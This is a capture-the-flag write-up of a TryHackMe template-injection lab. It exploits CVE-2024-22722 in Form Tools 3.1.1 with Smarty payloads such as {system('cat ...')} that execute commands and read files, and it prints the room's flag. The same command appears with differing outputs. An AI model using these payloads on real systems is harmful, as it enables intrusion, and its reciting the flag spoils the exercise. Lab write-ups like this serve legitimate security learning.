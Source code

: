 ```yaml
---
title: Server-side Template Injection
description: Exploit various templating engines that lead to SSTI vulnerability.
---
```

https://tryhackme.com/room/serversidetemplateinjection

Labs from the TryHackMe's **Server-side Template Injection**  room. 
## Extra-Mile Challenge
### Challenge

Another web app is running on [http://ssti.thm:8080/](http://ssti.thm:8080/). Can you achieve RCE and read the content of the hidden text file in the directory using SSTI?  
**Login credentials:**

- **Username**: admin
- **Password**: admin

## Discovery
Login into using the provided credentials. The web application is built from "Form Tools". 
![](../../../../public/images/THM_SSTI_20250608%20_140015.png)

### Web Footprinting
- Tech Stack: PHP
- Web Server: Apache
- CMS/Tool: Form Tools 3.1.1

### Vulnerabilities
- Form tools 3.1.1
- [CVE-2024-22722](https://nvd.nist.gov/vuln/detail/cve-2024-22722): Server Side Template Injection (SSTI) vulnerability in Form Tools 3.1.1 allows attackers to run arbitrary commands via the Group Name field under the add forms section of the application.


## Exploit
hakai security has documented the details of exploit in this [post](https://hakaisecurity.io/error-404-your-security-not-found-tales-of-web-vulnerabilities/)

1. Login as an administrator and create a form at http://ssti.thm:8080/admin/forms/add/internal.php
![](../../../../public/images/THM_SSTI_20250608%20_140408.png)
2. Add a New group at http://ssti.thm:8080/admin/forms/edit/index.php?form_id=3&page=views using `{{7*7}}`. "create group" request:
```http
POST /global/code/actions.php HTTP/1.1
Host: ssti.thm:8080
Content-Length: 55
X-Requested-With: XMLHttpRequest
Accept-Language: en-GB,en;q=0.9
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Origin: http://ssti.thm:8080
Referer: http://ssti.thm:8080/admin/forms/edit/index.php?form_id=3&page=views
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=tr1cmpj0l16vnci0obe09dm2i9
Connection: keep-alive

group_name=%7B%7B7*7%7D%7D&action=create_new_view_group
```
3. Click "Update" after group is created. ![](../../../../public/images/THM_SSTI_20250608%20_141015.png)
4. The command executed and return `49` ![](../../../../public/images/THM_20250608%20_141044.png)
5. Testing with string {{exec(‘id’)}} returns an error. Shows the template engine is smarty 
```
**Fatal error**: in **/var/www/html/vendor/smarty/smarty/libs/sysplugins/smarty_internal_templatecompilerbase.php** on line **1**
```

```php
{$smarty.version}
```

![](../../../../public/images/THM_SSTI_20250608%20_171653.png)

6. Running SSTI payloads to find hidden files with flag:
```php
{system('ls')} → index.php page_edit_email.php page_edit_view.php page_email_settings.php page_emails.php page_fields.php page_main.php page_public_form_omit_list.php page_public_view_omit_list.php page_views.php
```

```php
{system('ls ..')} → add delete_form.php edit edit_submission.php index.php option_lists submissions.php submissions.php
```

```php
{system('ls ../../')} → account clients forms index.php modules redirect.php settings themes themes
```

Found file with possible flag: `105e15924c1e41bf53ea64afa0fa72b2.txt`
```php
{system('ls ../../')} → 105e15924c1e41bf53ea64afa0fa72b2.txt LICENSE.txt admin cache clients error.php forget_password.php global index.php install modules process.php react themes upload vendor vendor
```

Payload
```php
{system('cat ../../../105e15924c1e41bf53ea64afa0fa72b2.txt')}
```

![](../../../../public/images/THM_SSTI_20250608%20_180045.png)

**Flag:** `THM{w0rK1Ng_sST1}THM{w0rK1Ng_sST1}`